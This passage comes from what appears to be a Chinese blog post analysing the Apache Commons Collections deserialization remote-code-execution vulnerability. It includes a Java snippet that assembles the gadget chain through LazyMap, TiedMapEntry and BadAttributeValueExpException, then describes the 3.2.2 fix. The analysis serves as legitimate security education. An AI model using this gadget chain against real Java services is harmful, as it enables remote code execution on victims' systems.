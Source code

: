这就简单了，通过反射就能实现：

```java
Transformer transformerChain = new ChainedTransformer(transformers);

Map innerMap = new HashMap();
Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
TiedMapEntry entry = new TiedMapEntry(lazyMap, "key");

BadAttributeValueExpException poc = new BadAttributeValueExpException(null);

// val是私有变量，所以利用下面方法进行赋值
Field valfield = poc.getClass().getDeclaredField("val");
valfield.setAccessible(true);
valfield.set(poc, entry);
```
    

于是，这时候，攻击就非常简单了，只需要把BadAttributeValueExpException对象序列化成字符串，只要这个字符串内容被反序列化，那么就会被攻击。

![][12]

### 问题解决

以上，我们复现了这个Apache Commons Collections类库带来的一个和反序列化有关的远程代码执行漏洞。

通过这个漏洞的分析，我们可以发现，只要有一个地方代码写的不够严谨，就可能会被攻击者利用。

因为这个漏洞影响范围很大，所以在被爆出来之后就被修复掉了，开发者只需要将Apache Commons Collections类库升级到3.2.2版本，即可避免这个漏洞。

![-w1382][13]

3\.2.2版本对一些不安全的Java类的序列化支持增加了开关，默认为关闭状态。涉及的类包括

    CloneTransformer
    ForClosure
    InstantiateFactory
    InstantiateTransformer
    InvokerTransformer
    PrototypeCloneFactory
    PrototypeSerializationFactory,
    WhileClosure
    

如在InvokerTransformer类中，自己实现了和序列化有关的writeObject()和 readObject()方法：

![][14]

在两个方法中，进行了序列化安全的相关校验，校验实现代码如下：

![][15]

在序列化及反序列化过程中，会检查对于一些不安全类的序列化支持是否是被禁用的，如果是禁用的，那么就会抛出`UnsupportedOperationException`，通过`org.apache.commons.collections.enableUnsafeSerialization`设置这个特性的开关。

将Apache Commons Collections升级到3.2.2以后，执行文中示例代码，将报错如下：


 [1]: https://www.hollischuang.com/archives/5177
 [2]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944480560097.jpg
 [3]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944485613275.jpg
 [4]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944494651843.jpg
 [5]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944505042521.jpg
 [6]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944497629664.jpg
 [7]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944539116926.jpg
 [8]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944538564178.jpg
 [9]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944509076736.jpg
 [10]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944537562975.jpg
 [11]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944519240647.jpg
 [12]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944537014741.jpg
 [13]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944526874284.jpg
 [14]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944525715616.jpg
 [15]: https://www.hollischuang.com/wp-content/uploads/2020/07/15944525999226.jpg